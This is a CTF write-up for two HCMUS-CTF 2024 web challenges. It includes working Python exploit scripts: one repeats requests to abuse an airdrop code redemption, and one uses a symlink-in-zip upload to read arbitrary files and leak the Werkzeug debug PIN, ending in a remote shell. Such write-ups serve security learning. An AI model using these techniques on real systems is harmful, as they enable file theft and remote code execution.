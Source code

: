 ```yaml
---
title: HCMUS-CTF(Qualification) 2024 Writeup
published: 2024-12-01
description: 'Writeup for HCMUS-CTF 2024'
image: './hcmus2024.png'
tags: [web, CTF, writeup]
category: 'Writeup'
draft: false 
lang: ''
---
```


## Web
### BP Airdrop
**Description**
A free airdrop website for everyone! Come and get your free BP!

**Analyze**
When I read the source code I come across this `let file = __dirname + '/../data/account/' + username + '.json';`
So I think to myself, why the website just let me login with any username and no password? Is that the hint? 

Then I try to path traversal with username = "../logs". Then I don't know what to do next :)). It is kind of a lucky challenge for me. I try to fucking around with the web application and see this weird behaviour:

1. Redeem the code "wqry-pmpo-tzve-mbk3"
2. Go to /api/logs
3. Go to /redeem and redeem the same code again, get extra balance
4. Loop 1000 times to get the flag =))

Then I write the exploit script as fast as I could and don't even look back and understand why because my team is in a rush, maybe in the next day I will look at it again.
**Exploit script**
```
import requests
import time
url1 = "http://chall.blackpinker.com:33415/api/logs"

cookies = {
    "username": "Li4vbG9n",
}

url2 = "http://chall.blackpinker.com:33415/redeem"
data = {
    "airdropCode":"wqry-pmpo-tzve-mbk3"    
}


for i in range(0, 1000):
    responseGet = requests.get(url1, cookies=cookies)
    responsePost = requests.post(url2, cookies=cookies, data=data)
    if(i % 10 == 0):
        time.sleep(1)
```

**Flag**: HCMUS-CTF{5trIct_eqU@l!Ty_!SN't_!T_101193d7181cc883}
Look likes it related to strict equality , hmm ?
### FlashyZ
**Description**
A simple web service which will unzip your files in a flash!

Hint: Flask debug is not good for production

Hint 2: Do you know about symlink?

**Analyze**
The hint has help my team a lot, with the hint my team is able to find 3 links:
1. https://book.hacktricks.xyz/network-services-pentesting/pentesting-web/werkzeug
2. https://book.hacktricks.xyz/pentesting-web/file-upload#zip-tar-file-automatically-decompressed-upload
3. https://github.com/Ruulian/wconsole_extractor

The first link basically said when flask app is in debug mode, we can get RCE but with a condition: a function to read arbitrary file on the server. If that happen, we can use the tool in the 3rd link to automatically exploit the server and get the RCE.

So I try to find way to get the content of arbitary file => Which is the tips in the second link: Upload a zip file that contain symlinks to the target file on the server so when the server unzip it, we can read the content of the symlinks.

In the process of use the tool in 3rd link, I came across some bug that require me to manually edit the source code of the tool, then I realized I have to specify the python and werkzeug version in the tool's source code

```
self.python_version = "3.10.15"
self.werkzeug_version = "3.1.3"
```

Here are the exploit script:
```
import os
import zipfile
import requests
from bs4 import BeautifulSoup
import re

SYMLINK_PATH = "symindex.txt"
ZIP_FILENAME = "test.zip"
UPLOAD_URL = "http://chall.blackpinker.com:33697/upload"  
def upload_file():
    try:
        with open(ZIP_FILENAME, 'rb') as f:
            files = {'file': (ZIP_FILENAME, f)}
            response = requests.post(UPLOAD_URL, files=files)
            # print(response.text)
            soup = BeautifulSoup(response.text, 'html.parser')
            link = soup.find('a', href=True)
            
            if link:
                href = link['href']
                print(f"Full link: {href}")
                
                match = re.search(r'/list/([a-f0-9\-]+)', href)
                if match:
                    uuid = match.group(1)
                    print(f"Extracted UUID: {uuid}")
                    return uuid
                else:
                    print("No UUID found in the link.")
            else:
                print("No link found in the response.")
    except Exception as e:
        print(f"Error uploading file: {e}")
        raise

from main import WConsoleExtractor, info

def leak_function(filename) -> str:
    filename = "../../.." + filename
    print(filename)
    if os.path.exists(SYMLINK_PATH):
        os.remove(SYMLINK_PATH)
    if os.path.exists(ZIP_FILENAME):
        os.remove(ZIP_FILENAME)
    os.system(f"rm symindex.txt; sudo ln -s {filename} symindex.txt")
    os.system(f"sudo zip --symlinks test.zip symindex.txt")
    upload_file()
    uuid = upload_file()
    r = requests.get(f"http://chall.blackpinker.com:33697/view/{uuid}/symindex.txt")
    if r.status_code == 200 and "<!DOCTYPE html>" not in r.text:
        return r.text
    else:
        return ""

# print(leak_function("/etc/machine-id"))
extractor = WConsoleExtractor(
    target="http://chall.blackpinker.com:33697",
    leak_function=leak_function,
)

info(f"PIN CODE: {extractor.pin_code}")
extractor.shell()
        

```

**Flag**: HCMUS-CTF{symply_unzip2rce_23fe1ecf18f7617f}

